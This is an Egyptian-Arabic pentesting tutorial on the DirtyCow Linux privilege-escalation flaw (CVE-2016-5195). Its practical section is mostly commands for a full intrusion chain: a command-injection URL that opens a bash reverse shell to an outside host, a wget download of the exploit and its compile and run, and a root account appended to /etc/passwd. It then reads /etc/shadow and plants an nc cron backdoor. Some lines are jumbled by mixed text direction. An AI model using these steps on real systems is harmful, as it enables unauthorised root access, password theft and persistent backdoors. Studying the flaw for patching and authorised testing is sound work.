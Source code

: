 # **1. إيه هو DirtyCow (CVE-2016-5195)؟**

## **الشرح العميق:**
DirtyCow هو ثغرة في نواة لينكس (Linux Kernel) اكتشفت سنة 2016 ورقمها CVE-2016-5195. الثغرة دي بتستغل مشكلة في طريقة إدارة الذاكرة (Memory Management) في النظام، وبالأخص في ميزة تسمى "Copy-on-Write" (COW). الفكرة إنك لو كنت مستخدم عادي (Low Privilege User)، تقدر تستغل الثغرة دي عشان تكتب في ملفات المفروض تكون للقراءة بس (Read-Only) أو محمية، زي ملفات النظام المهمة (`/etc/passwd` مثلًا). الهدف الأساسي هو تصعيد الصلاحيات (Privilege Escalation) لتصير `root`.

- **إزاي بتشتغل؟** الثغرة بتستغل حالة سباق (Race Condition) بين الكتابة في الذاكرة وتعديل الملفات، فتقدر تغير محتوى ملفات النظام.
- **الإصدارات المتأثرة:** Kernel من 2.6.22 لحد 4.8.3 (يعني أنظمة قديمة قبل التحديثات بتاعة 2016).

## **الأدوات والأوامر العملية:**
### 1. **فحص إصدار الkernel:**
   - `uname -r` ->  يبقى متأثر.c`3.2.0-23-generic` لو رجع مثلًا
### 2. **تحميل Exploit:**
   - `wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirty.c`.
### 3. **تجميع الكود:**
   - `gcc -pthread dirty.c -o dirtycow`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة السجن، تدخل منه وتطلع الكبير بتاع الحبس! DirtyCow يعني بتستغل عيب في النظام عشان تكتب في حاجات المفروض ماتقربلهاش وتبقى root."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرة دي خطيرة جدًا لأنها بتدي مستخدم عادي (زي `www-data` مثلًا) القدرة يتحكم في النظام كله عن طريق تعديل ملفات مهمة. يعني:
- **تصعيد صلاحيات:** تقدر تضيف نفسك كـ root أو تغير كلمات سر.
- **تدمير النظام:** لو عايز تخرب، تغير ملفات النظام الأساسية.
- **وصول دائم:** تضيف Backdoor عشان ترجع تاني.

في الـ Pentesting، لو لقيت سيرفر قديم متأثر بـ DirtyCow، ده يعني إنك ممكن تاخد root في دقايق من غير تعقيد.

## **الأدوات والأوامر العملية:**
### 1. **تشغيل الـ Exploit:**
   - `./dirtycow`  .->root ويضيف مستخدم جديد بصلاحيات `/etc/passwd`  بيعدل ملف زي
### 2. **التحقق:**
   - `id` -> يبقى نجحت.`uid=0(root)` لو رجع - ، 
### 3. **مثال يدوي:**
   - لو عندك Shell كـ `www-data`:
     - `echo "hacker:x:0:0:root:/root:/bin/bash" >> /etc/passwd` (عادةً ما ينفعش، بس DirtyCow بيخلّيه ينفع).

## **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت مفتاح السجن في الزبالة، فتحت الباب وطلعت الباشا بتاع الكل! لو لقيتها، يبقى النظام في إيدك في ثواني."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم DirtyCow عشان تصعد من مستخدم عادي لـ root عن طريق تعديل ملفات النظام.
- **مثال واقعي:** لو وصلت لـ Shell كـ `www-data` على سيرفر قديم، تشغل الـ Exploit وتبقى root.

## **خلاصة بالعامية المصرية:**
"لما تلاقي DirtyCow، زي ما تكون لقيت عصاية سحرية في لعبة، تضرب بيها وتبقى الكبير بتاع الماتش في ثانية!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 -> لو وصلت لـ Shell، ابدأ.

## **الخطوة 2: الوصول لـ Shell**
- لو لقيت ثغرة ويب (زي Command Injection):
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `www-data`.

## **الخطوة 3: التحقق من الكernel**
- في الـ Shell:
  - `uname -r` -> لو رجع `3.16.0-38-generic` (مثلاً)، يبقى متأثر بـ DirtyCow.

## **الخطوة 4: تحميل وتشغيل DirtyCow**
- انقل الـ Exploit للسيرفر:
  - في جهازك: `python3 -m http.server 80`.
  - في الـ Shell: `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
- جمّع الكود:
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
- شغله:
  - `./tmp/dirtycow` -> غالبًا بيضيف مستخدم جديد زي `firefart` بصلاحيات root.

## **الخطوة 5: التحقق من التصعيد**
- `cat /etc/passwd` -> لو لقيت سطر زي `firefart:x:0:0::/:/bin/sh`.
- `su firefart` -> لو طلب كلمة سر (عادةً `firefart`)، ادخلها.
- `id` -> `uid=0(root)` -> نجحت.

## **الخطوة 6: استغلال وتوثيق**
- كـ root:
  - `cat /etc/shadow` -> تسريب كلمات السر.
  - `echo "nc -e /bin/bash 192.168.1.100 9999" > /etc/cron.d/backdoor` -> Backdoor.
- سجل الإصدار المتأثر والخطوات في تقريرك.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! DirtyCow لما تلاقيها، يبقى النظام في جيبك في دقايق."

---

# **الخلاصة النهائية:**
DirtyCow (CVE-2016-5195) هي ثغرة خطيرة في نواة لينكس بتخلّيك تصعد من مستخدم عادي لـ root عن طريق استغلال عيب في الذاكرة. في الـ Pentesting، دور عليها في الأنظمة القديمة بـ `uname -r`، استخدم الـ Exploit عشان تاخد Shell كـ root، ووري العميل إن سيرفره زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بسهولة!
